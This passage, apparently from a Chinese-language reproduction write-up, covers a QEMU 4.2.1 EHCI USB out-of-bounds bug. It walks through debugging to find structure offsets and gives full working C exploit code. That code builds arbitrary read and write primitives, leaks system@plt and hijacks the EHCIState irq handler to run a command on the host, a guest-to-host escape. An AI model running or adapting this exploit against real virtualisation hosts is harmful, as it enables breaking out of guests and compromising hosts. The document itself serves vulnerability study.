    uint64_t *tmp = data_buf_oob + 0x4fc;
    // printf("*(data_buf_oob+0x4fc) = %s\n", tmp);

    long long leak_addr = *tmp;
    if (leak_addr == 0)
    {
        printf("init done, do it again");
        return 0;
    }
    long long base = leak_addr - 0xd27cb0;
    long long system_plt = base + 0x2c4ad0;

    printf("elfbase: 0x%llx\n", base);
    printf("system@plt: 0x%llx\n", system_plt);

    unsigned long USBPort_ptr = arb_read(USBPort_addr);
    unsigned long EHCIState_addr = USBPort_ptr - 0x540; // ?
    unsigned long irq_addr = EHCIState_addr + 0xc0;     // ?
    unsigned long fake_irq_addr = data_buf_addr;        // dev_addr + 0xdc
    unsigned long irq_ptr = arb_read(irq_addr);

    setup_state_data();
    *(unsigned long *)(data_buf + 0x28) = system_plt;              // handler
    *(unsigned long *)(data_buf + 0x30) = dev_addr + 0xdc + 0x100; // opaque
    *(unsigned long *)(data_buf + 0x38) = 0x3;                     // n
    *(unsigned long *)(data_buf + 0x100) = 0x636c616378;           // "xcalc"
    do_copy_write(0, 0xffff, 0xffff);

    arb_write(irq_addr, fake_irq_addr);

    return 0;
}
```

首先是outw的设置

```c
    iopl(3);
    outw(0, 0xc080);
    outw(0, 0xc0a0);
    outw(0, 0xc0c0);
```

iopl(3) 是把当前进程的 x86 I/O privilege level 提到 3，这样用户态才能直接执行 outw 这种端口 I/O 指令

后面三条outw()是往3个IO端口里各写一个16位word：0，作用是把 00:1d.0、00:1d.1、00:1d.2 这三个 companion UHCI 控制器停掉（LLM说的，不确定）

‍

接着是越界读

```c
    init_state();
    set_length(0x200, USB_DIR_IN);
    set_length(0x2000, USB_DIR_IN);
    do_copy_read();
```

然后再看关键信息的泄露

根据前面的内容，我们知道exp脚本里的USBDevice的定义并不完整，是针对USBDevice中溢出部分的节选，但是根据常识来看，映射到我们的USBDevice上的应该是data_buf_oob，为什么这里的代码是：

```c
    struct USBDevice *usb_device_tmp = data_buf_oob + 4;
    struct USBDevice usb_device;
    memcpy(&usb_device, usb_device_tmp, sizeof(USBDevice));
```

data_buf_oob为什么要+4？其实如果快进到后面的调试部分，会发现USBDevice->data_buf相对于USBDevice的偏移是0xdc，所以USBDevice结构体中没有被放进exp的部分并没有对齐，它们在USBDevice->data_buf[4096]之后还需要有4个字节的补充，因此这里需要data_buf_oob+4，这才与我们在脚本中定义的USBDevice结构体相匹配

memcpy将得到的关键结构体信息copy到自定的dmabuf+0x1000（data_buf）中，同时会溢出，再根据自定义的USBDevice结构体匹配关键信息得到USBDevice.ep_ctl.dev，即为USBDevice的指针

‍

再接着是data_buf和USBPort的定位

```c
    dev_addr = usb_device.ep_ctl.dev;
    data_buf_addr = dev_addr + 0xdc;
    USBPort_addr = dev_addr + 0x78;
```

定位方法可以通过后续的调试过程得到

然后读取USBDevice中已经越界泄露出来的desc_device_high，并通过其计算出elf基址和system@plt

‍

接下来是定位irq的问题

```c
    unsigned long USBPort_ptr = arb_read(USBPort_addr);
    unsigned long EHCIState_addr = USBPort_ptr - 0x540;
    unsigned long irq_addr = EHCIState_addr + 0xc0;
```

通过USBDevice->USBPort指针得到USBPort的地址，根据其地址反推得到EHCIState的地址以及EHCIState结构体内的irq

‍

紧接着就是对irq的伪造，将其指针修改为data_buf上可控的内容并利用越界写写到USBDevice->databuf中，最后利用任意写将irq的指针覆盖成fake_irq指针

```c
    setup_state_data();
    *(unsigned long *)(data_buf + 0x28) = system_plt;            // handler
    *(unsigned long *)(data_buf + 0x30) = data_buf_addr + 0x100; // opaque
    *(unsigned long *)(data_buf + 0x38) = 0x3;                   // n
    *(unsigned long *)(data_buf + 0x100) = 0x636c616378;         // "xcalc"
    do_copy_write(0, 0xffff, 0xffff);

    arb_write(irq_addr, fake_irq_addr);
```

‍

‍

## 调试

讲一点复现中的调试技巧和过程

```bash
sudo -E gdb --args \
    ./qemu-4.2.1 \
    -machine q35 \
    -m 1G \
    -hda ubuntu-server.qcow2 \
    -device e1000,netdev=net0 \
    -netdev user,id=net0,hostfwd=tcp::5555-:22 \
    -enable-kvm \
    -usb \
    -drive if=none,format=raw,id=disk1,file=./disk_01.img \
    -device usb-storage,drive=disk1 \
    -device qxl-vga \
```

启动后不打断点，直接启动直到运行`sudo ./exp`​之前，给`do_token_setup`打上断点

‍

加载源码：

```bash
pwndbg> set substitute-path /home/ret2z/qemu-7.0.0/qemu-4.2.1 /home/ret2z/tools/qemu/qemu-4.2.1
pwndbg> directory /home/ret2z/tools/qemu/qemu-4.2.1
```



```bash
  如果想在终端里直接看到源码窗口：

  layout src

  退出窗口：

  tui disable

  排查是否生效可以用：

  info source
  show substitute-path
  show directories
```

`layout src`的效果：



调试确定`dev_addr`



根据调试定位到的上图，`rsi`​为`s->setup_buf`​，定位方式为`[rbp + 0xd4]`​，说明`setup_buf`​的偏移为`0xd4`​，推理可得`data_buf`​的偏移为`0xd4+8=0xdc`

另一种方法是直接解析结构体：



找到了`port`的值，根据其值定位其位置



明显可知为后者，即 `0x555556f1d2b8`​，相减得到偏移为`0x78`



编写程序`test.c`确定 的指针位置：

```c
// 定义USBDevice等，与exp中保持一致即可

int main()
{
    printf("USBDevice size: %llx\n", sizeof(USBDevice));
    return 0;
}
```



则`data_buf_oob[4:0x4e8+4]`​为自定义的`USBDevice`​，真实的`USBDevice`在其后的结构体成员是：

```c
    QLIST_HEAD(, USBDescString) strings;
    const USBDesc *usb_desc; /* Overrides class usb_desc if not NULL */
    const USBDescDevice *device;
```

所以`0x4fc`​对应的指针为`const USBDescDevice *device`;

可以通过该装置获取`USBDescDevice* device`的指针

‍

接下来明确为什么要这个指针

我们首先看到`vmmap`​的内存分布图，经常做`pwn`​就会知道，一般而言只有红框中的内存区域是我们能够通过其计算出`elf`​基址的。虽然这里的`anon_*`​的地址和`heap`的地址似乎都是连续地址，可以计算，但是为了保险起见，还是应当选择一块前面的地址



在已经泄露出的`USBDevice`​中寻找，得到`USBDesc* device`这个变量的地址符合要求



在调试时计算其偏移，与前面对比进行验证得到其与`USBDevice`​的偏移为`0x15d8`​，减去`data_buf`​偏移的`0xdc`​和`data_buf`​的大小`0x1000`​，得到：`0x4fc`​，与前一种方法计算结果一致；最后根据其值，算出其与`elf`​基址的偏移为 `0xd27cb0`​，进而计算出`elf`​基址和`system@plt`的地址



‍

`EHCI_State`的确认：



`port = 0x555556ea3030`​，即这个`port`​的`USBPort`​结构体指针为 `0x555556ea3030`



`USBPort`​在`EHCIState`​中有一个数组，根据其序号为1可以确定这是数组中的第一个元素，由此定位到`EHCIState`​。但是这里`USBPort`​在`EHCIState`中的偏移不好查找，所以学了一个新技巧：

```c
pwndbg> ptype /o struct EHCIState
```

得到偏移如图所示，`USBPort ports[]`​的第一个元素在`EHCIState`​中的偏移为`1344 = 0x540`



由此算得`EHCIState`​的基址：`0x555556ea3030 - 0x540 = 0x555556ea2af0`

同时已知`irq`​的偏移为：`192 = 0xc0`​，由此可以计算得到`irq`的地址



‍

## exp

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/io.h>
#include <sys/mman.h>
#include <stdbool.h>

#define PORTSC_PRESET (1 << 8) // Port Reset
#define PORTSC_PED (1 << 2)    // Port Enable/Disable
#define USBCMD_RUNSTOP (1 << 0)
#define USBCMD_PSE (1 << 4)
#define USB_DIR_OUT 0
#define USB_DIR_IN 0x80
#define QTD_TOKEN_ACTIVE (1 << 7)
#define USB_TOKEN_SETUP 2
#define USB_TOKEN_IN 1  /* device -> host */
#define USB_TOKEN_OUT 0 /* host -> device */
#define QTD_TOKEN_TBYTES_SH 16
#define QTD_TOKEN_PID_SH 8

struct EHCIqh *qh;
struct EHCIqtd *qtd;

unsigned char *mmio_mem;
unsigned char *data_buf;
unsigned char *data_buf_oob;
char *dmabuf;
char *setup_buf;
uint32_t *entry;
uint64_t dev_addr;
uint64_t data_buf_addr;
uint64_t USBPort_addr;

typedef struct USBDevice USBDevice;
typedef struct USBEndpoint USBEndpoint;
struct USBEndpoint
{
    uint8_t nr;
    uint8_t pid;
    uint8_t type;
    uint8_t ifnum;
    int max_packet_size;
    int max_streams;
    bool pipeline;
    bool halted;
    USBDevice *dev;
    USBEndpoint *fd;
    USBEndpoint *bk;
};

struct USBDevice
{
    int32_t remote_wakeup;
    int32_t setup_state;
    int32_t setup_len;
    int32_t setup_index;

    USBEndpoint ep_ctl;
    USBEndpoint ep_in[15];
    USBEndpoint ep_out[15];
};

typedef struct EHCIqh
{
    uint32_t next; /* Standard next link pointer */

    /* endpoint characteristics */
    uint32_t epchar;

    /* endpoint capabilities */
    uint32_t epcap;

    uint32_t current_qtd; /* Standard next link pointer */
    uint32_t next_qtd;    /* Standard next link pointer */
    uint32_t altnext_qtd;

    uint32_t token;     /* Same as QTD token */
    uint32_t bufptr[5]; /* Standard buffer pointer */

} EHCIqh;
typedef struct EHCIqtd
{
    uint32_t next;    /* Standard next link pointer */
    uint32_t altnext; /* Standard next link pointer */
    uint32_t token;

    uint32_t bufptr[5]; /* Standard buffer pointer */

} EHCIqtd;

int fail(char *info)
{
    perror(info);
    exit(-1);
}

// virtual addr -> physic addr
uint64_t vir2phy(void *p)
{
    uint64_t vir = (uint64_t)p;
    int fd = open("/proc/self/pagemap", O_RDONLY);
    if (fd == -1)
    {
        fail("open");
    }
    uint64_t offset = (vir / 0x1000) * 8;
    lseek(fd, offset, SEEK_SET);

    uint64_t phy;
    if (read(fd, &phy, 8) != 8)
    {
        fail("read");
    }

    phy = (phy & (1 << 54) - 1) * 0x1000 + (vir & 0xfff);
    close(fd);
    return phy;
}

void mmio_write(uint32_t addr, uint32_t value)
{
    *((uint32_t *)(mmio_mem + addr)) = value;
}

uint64_t mmio_read(uint32_t addr)
{
    return *((uint64_t *)(mmio_mem + addr));
}

void init()
{
    int mmio_fd = open("/sys/devices/pci0000:00/0000:00:1d.7/resource0", O_RDWR | O_SYNC);
    if (mmio_fd == -1)
    {
        fail("mmio_fd");
    }
    // mem for usb device
    mmio_mem = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mmio_mem == MAP_FAILED)
    {
        fail("mmio_mem");
    }
    // mem for dmabuf
    int idx = 0;
    do
    {
        idx++;
        dmabuf = mmap(0, 0x3000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_SHARED | MAP_ANONYMOUS, -1, 0);
        if (dmabuf == MAP_FAILED)
        {
            fail("dmabuf\n");
        }

        *(char *)dmabuf = 'a';
        *(char *)(dmabuf + 0x1000) = 'b';
        *(char *)(dmabuf + 0x2000) = 'c';

        entry = dmabuf + 4;
        qh = dmabuf + 0x100;
        qtd = dmabuf + 0x200;
        setup_buf = dmabuf + 0x300;
        data_buf = dmabuf + 0x1000;
        data_buf_oob = dmabuf + 0x2000;

        if (vir2phy(data_buf) + 0x1000 == vir2phy(data_buf_oob))
        {
            printf("dmabuf: 0x%lx\n", (uint64_t)dmabuf);
            printf("phy_dmabuf: 0x%lx\n", vir2phy(dmabuf));
            printf("data_buf: 0x%lx\n", (uint64_t)data_buf);
            printf("phy_data_buf: 0x%lx\n", vir2phy(data_buf));
            printf("data_buf_oob: 0x%lx\n", (uint64_t)data_buf_oob);
            printf("phy_data_buf_oob: 0x%lx\n", vir2phy(data_buf_oob));
            break;
        }
        else
        {
            munmap(dmabuf, 0x3000);
            // printf("not continue\n");
            continue;
        }
    } while (idx < 1000);

    if (idx == 0x1000)
    {
        fail("Unable to find a contiguous physical address");
    }
    printf("init Success!\n");
}

void reset_enable_port()
{
    // 对usb设备0x64偏移处进行写入操作，0x64 的偏移对应到 portsc
    // 对该字段写操作会调用到ehci_port_write
    // 实现reset复位，重新走一遍流程
    mmio_write(0x64, PORTSC_PRESET);
    mmio_write(0x64, PORTSC_PED);
}

void set_EHCIState() // 触发一次
{
    mmio_write(0x2c, 0);                           // frindex
    mmio_write(0x34, vir2phy(dmabuf));             // periodiclistbase
    mmio_write(0x20, USBCMD_RUNSTOP | USBCMD_PSE); // usbcmd
    sleep(1);
}

void set_qh()
{
    qh->epchar = 0x00;
    qh->token = QTD_TOKEN_ACTIVE;
    qh->current_qtd = vir2phy(qtd);
}

void init_state()
{
    // prepare
    reset_enable_port();
    set_qh();
    // set overflow length
    setup_buf[6] = 0xff;
    setup_buf[7] = 0x0;

    // do_token_setup 设置 s->setup_len 的长度为越界长度
    // 进入 do_token_setup 需要设置 qtd->token 值
    qtd->token = QTD_TOKEN_ACTIVE | USB_TOKEN_SETUP << QTD_TOKEN_PID_SH | 8 << QTD_TOKEN_TBYTES_SH;
    qtd->bufptr[0] = vir2phy(setup_buf);

    *entry = vir2phy(qh) + 0x2;

    set_EHCIState(); // 触发

    printf("init_state Success\n");
}

void set_length(uint16_t len, uint8_t option)
{
    reset_enable_port();
    set_qh();

    setup_buf[0] = option;
    setup_buf[6] = len & 0xff;
    setup_buf[7] = (len >> 8) & 0xff;

    qtd->token = QTD_TOKEN_ACTIVE | USB_TOKEN_SETUP << QTD_TOKEN_PID_SH | 8 << QTD_TOKEN_TBYTES_SH;
    qtd->bufptr[0] = vir2phy(setup_buf);
    set_EHCIState();
}

void do_copy_read()
{
    reset_enable_port();
    set_qh();
    // set token in order to step in do_token_in
    // set p->iov.size
    qtd->token = QTD_TOKEN_ACTIVE | USB_TOKEN_IN << QTD_TOKEN_PID_SH | 0x1e00 << QTD_TOKEN_TBYTES_SH;
    qtd->bufptr[0] = vir2phy(data_buf);
    qtd->bufptr[1] = vir2phy(data_buf_oob);

    set_EHCIState();
}

void do_copy_write(int offset, unsigned int setup_len, unsigned int setup_index)
{
    reset_enable_port();
    set_qh();

    *(unsigned long *)(data_buf_oob + offset) = 0x0000000200000002;
    *(unsigned int *)(data_buf_oob + 0x8 + offset) = setup_len;
    *(unsigned int *)(data_buf_oob + 0xc + offset) = setup_index;

    qtd->token = QTD_TOKEN_ACTIVE | USB_TOKEN_OUT << QTD_TOKEN_PID_SH | 0x1e00 << QTD_TOKEN_TBYTES_SH;
    qtd->bufptr[0] = vir2phy(data_buf);
    qtd->bufptr[1] = vir2phy(data_buf_oob);

    set_EHCIState();
}

void setup_state_data()
{
    set_length(0x500, USB_DIR_OUT);
}

unsigned long arb_read(uint64_t target_addr)
{
    setup_state_data();
    set_length(0x1010, USB_DIR_OUT);
    do_copy_write(0, 0x1010, 0xfffffff8 - 0x1010); // over write

    *(unsigned long *)(data_buf) = 0x2000000000000080; // set setup_buf[0] => USB_DIR_IN
    unsigned int target_offset = target_addr - data_buf_addr;

    do_copy_write(0x8, 0xffff, target_offset - 0x1018); // offset = 8
    do_copy_read();                                     // over read
    return *(unsigned long *)(data_buf);
}

void arb_write(uint64_t target_addr, uint64_t payload)
{
    setup_state_data();
    set_length(0x1010, USB_DIR_OUT);

    unsigned long offset = target_addr - data_buf_addr;
    do_copy_write(0, offset + 0x8, offset - 0x1010);

    *(unsigned long *)(data_buf) = payload;
    do_copy_write(0, 0xffff, 0);
}

int main()
{
    init();
    iopl(3);
    outw(0, 0xc080);
    outw(0, 0xc0a0);
    outw(0, 0xc0c0);
    sleep(3);

    init_state();
    setup_state_data(); // s->setup_state = SETUP_STATE_DATA;
    set_length(0x2000, USB_DIR_IN);
    do_copy_read();

    struct USBDevice *usb_device_tmp = data_buf_oob + 4;
    struct USBDevice usb_device;
    memcpy(&usb_device, usb_device_tmp, sizeof(USBDevice));

    for (int i = 0; i < 0x20; ++i)
    {
        printf("data_buf[%d]: %lx\n", i, *(uint64_t *)(data_buf + i * 8));
    }

    printf("--------------------------------------------\n");

    for (int i = 0; i < 0x20; ++i)
    {
        printf("data_buf_oob[%d]: %lx\n", i, *(uint64_t *)(data_buf_oob + i * 8));
    }

    dev_addr = usb_device.ep_ctl.dev;
    data_buf_addr = dev_addr + 0xdc;
    USBPort_addr = dev_addr + 0x78;
    printf("USBDevice dev_addr: 0x%llx\n", dev_addr);
    printf("USBDevice->data_buf: 0x%llx\n", data_buf_addr);
    printf("USBPort_addr: 0x%llx\n", USBPort_addr);

    uint64_t *tmp = data_buf_oob + 0x4fc;
    // printf("*(data_buf_oob+0x4fc) = %s\n", tmp);

    long long leak_addr = *tmp;
    if (leak_addr == 0)
    {
        printf("init done, do it again");
        return 0;
    }
    long long base = leak_addr - 0xd27cb0;
    long long system_plt = base + 0x2c4ad0;

    printf("elfbase: 0x%llx\n", base);
    printf("system@plt: 0x%llx\n", system_plt);

    unsigned long USBPort_ptr = arb_read(USBPort_addr);
    unsigned long EHCIState_addr = USBPort_ptr - 0x540;
    unsigned long irq_addr = EHCIState_addr + 0xc0;
    unsigned long fake_irq_addr = data_buf_addr;
    // unsigned long irq_ptr = arb_read(irq_addr);

    setup_state_data();
    *(unsigned long *)(data_buf + 0x28) = system_plt;            // handler
    *(unsigned long *)(data_buf + 0x30) = data_buf_addr + 0x100; // opaque
    *(unsigned long *)(data_buf + 0x38) = 0x3;                   // n
    *(unsigned long *)(data_buf + 0x100) = 0x636c616378;         // "xcalc"
    do_copy_write(0, 0xffff, 0xffff);

    arb_write(irq_addr, fake_irq_addr);

    return 0;
}
```

效果：



‍
